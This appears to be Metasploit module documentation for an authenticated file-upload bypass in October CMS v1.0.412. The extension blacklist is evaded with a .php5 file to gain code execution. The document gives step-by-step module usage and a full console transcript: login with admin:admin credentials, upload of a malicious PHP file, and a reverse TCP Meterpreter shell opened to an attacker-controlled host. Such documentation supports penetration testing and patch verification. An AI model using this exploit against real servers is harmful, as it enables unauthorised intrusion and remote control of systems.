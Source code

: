 ## Description

  An authenticated user with permission to upload and manage media contents can
  upload various files on the server. The application prevents the user from
  uploading PHP code by checking the file extension. It uses blacklist based
  approach, as seen in octobercms/vendor/october/rain/src/Filesystem/
  Definitions.php:blockedExtensions().

## Vulnerable Software

  October CMS v1.0.412 (build 412)
  https://www.exploit-db.com/apps/4ff8a9688f31b7338020d0bc85da13fc-october-1.0.412.tar.gz

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/october_upload_bypass_exec```
  4. Do: ```set RHOSTS <ip>``
  5. Do: ```set USERNAME <user>```
  6. Do: ```set PASSWORD <pass>```
  7. You should get a shell.

## Verification

  ```
  msf5 > use exploit/multi/http/october_upload_bypass_exec
  msf5 exploit(multi/http/october_upload_bypass_exec) > set rhosts 10.10.10.16
  rhosts => 10.10.10.16
  msf5 exploit(multi/http/october_upload_bypass_exec) > setg verbose true
  verbose => true
  msf5 exploit(multi/http/october_upload_bypass_exec) > set lhost 10.10.14.8
  lhost => 10.10.14.8
  msf5 exploit(multi/http/october_upload_bypass_exec) > run 

  [*] Started reverse TCP handler on 10.10.14.8:4444 
  [+] Token for login : 3ySsc8d8VNMm2V8x3Ns4cay05bwhRxnoIkQjRnBP
  [+] Session Key for login : uVNSZ2YRUm39cf8kqJcWV0qr9xhqq9krCYHeVI6m
  [*] Trying to Login ......
  [+] Authentication successful: admin:admin
  [*] Trying to upload malicious WLMVDKmVpCX.php5 file ....
  [*] Sending stage (38247 bytes) to 10.10.10.16
  [*] Meterpreter session 1 opened (10.10.14.8:4444 -> 10.10.10.16:54124) at 2019-09-03 12:19:20 +0530
  [+] Deleted WLMVDKmVpCX.php5

  meterpreter > sysinfo 
  Computer    : october
  OS          : Linux october 4.4.0-78-generic #99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686
  Meterpreter : php/linux
  meterpreter > 
  ```
